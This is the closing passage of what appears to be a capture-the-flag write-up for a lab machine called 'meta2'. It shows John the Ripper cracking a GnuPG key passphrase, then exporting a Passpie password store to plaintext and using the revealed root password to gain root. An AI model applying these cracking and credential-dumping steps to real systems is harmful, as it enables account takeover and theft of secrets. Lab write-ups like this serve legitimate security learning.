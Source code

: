 ```console
$ john --wordlist=/usr/share/wordlists/rockyou.txt keys.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (gpg, OpenPGP / GnuPG Secret Key [32/64])
Cost 1 (s2k-count) is 65011712 for all loaded hashes
Cost 2 (hash algorithm [1:MD5 2:SHA1 3:RIPEMD160 8:SHA256 9:SHA384 10:SHA512 11:SHA224]) is 2 for all loaded hashes
Cost 3 (cipher algorithm [1:IDEA 2:3DES 3:CAST5 4:Blowfish 7:AES128 8:AES192 9:AES256 10:Twofish 11:Camellia128 12:Camellia192 13:Camellia256]) is 7 for all loaded hashes
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
blink182         (Passpie)     
1g 0:00:00:01 DONE (2023-04-30 11:17) 0.6329g/s 106.3p/s 106.3c/s 106.3C/s peanut..987654
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

And in just a few seconds will know that the Passpie password is *blink182*. Now let's get get back to the box and finish the escalation with: 

```console
jnelson@meta2:~$ passpie export /tmp/passdump.txt
Passphrase: *********
jnelson@meta2:~$ cat /tmp/passdump.txt 
credentials:
- comment: ''
  fullname: root@ssh
  login: root
  modified: 2022-06-26 08:58:15.621572
  name: ssh
  password: !!python/unicode 'p7qfAZt4_A1xo_0x'
- comment: ''
  fullname: jnelson@ssh
  login: jnelson
  modified: 2022-06-26 08:58:15.514422
  name: ssh
  password: !!python/unicode 'Cb4_JmWM8zUZWMu@Ys'
handler: passpie
version: 1.0
jnelson@meta2:~$ su root
Password: **************
root@meta2:/home/jnelson#
```

There we go! As usual, the root flag is in *~/root.txt* file. 

## Final Thoughts

This box was fun and taught me a lot about wordpress vulnerabilities and hash cracking forcing me to learn a bit more about tools like [hashcat](https://hashcat.net/hashcat/) and [johntheripper](https://www.openwall.com/john/).